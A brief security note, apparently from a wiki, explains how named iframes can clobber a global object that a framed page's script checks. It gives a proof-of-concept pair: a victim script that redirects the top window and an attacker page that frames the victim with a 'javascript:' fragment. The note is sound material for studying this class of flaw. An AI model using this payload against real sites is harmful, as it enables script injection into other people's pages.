 # Introduction #

In some cases inner frames scripts will check for the existence of top frames objects. It is possible to fool the script by thinking the top window and the object is looking for is accessible by adding iframe elements with the name of the object itself.

# Details #

http://vi.ct.im/page
```
 <script>
 if(top.globalObject!='someValue'){
   top.location=location.href.split('#')[0];
 }
</script>
```

top window
```
<iframe name='globalObject'></iframe>
<iframe src='http://vi.ct.im/page#javascript:JsHere'></iframe>
```